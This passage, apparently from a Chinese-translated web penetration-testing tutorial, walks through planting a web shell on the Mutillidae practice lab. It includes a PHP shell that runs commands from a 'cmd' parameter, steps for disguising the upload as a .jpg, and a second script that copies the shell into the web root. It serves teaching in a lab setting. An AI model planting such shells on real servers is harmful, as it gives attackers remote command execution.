 ```
&lt;?
system($_GET['cmd']);
echo '&lt;p>Type a command: &lt;form method="GET">&lt;input type="text" name="cmd">&lt;/form>&lt;/p>';
?>
```

1.  上传文件，并按如下方式更改其扩展名和类型：

![](img/287ead44-ece3-4cc9-a278-f0c6e99768e2.png)

现在的问题是如何通过 Web Shell 执行命令。我们不能直接调用它，因为它存储在`/tmp`目录下，浏览器无法直接访问；我们可能能够利用文件包含漏洞，但由于 Web Shell 的代码会与包含脚本（`index.php`）的代码结合使用，因此我们依赖于该脚本不会对提供的参数进行任何过滤或修改。为了解决这些问题，我们将向服务器上传另一个文件，该文件将 Web Shell 重命名为 `.php` 并将其移动到 Web 根目录。

1.  将上传`sf-info.php`的请求发送到重放器。

1.  将文件名更改为`rename.jpg`，并调整`Content-Type`。

1.  将文件内容替换为以下内容：

```
&lt;?
system('cp /tmp/webshell.jpg /owaspbwa/mutillidae-git/webshell.php');
system('ls');
?>
```
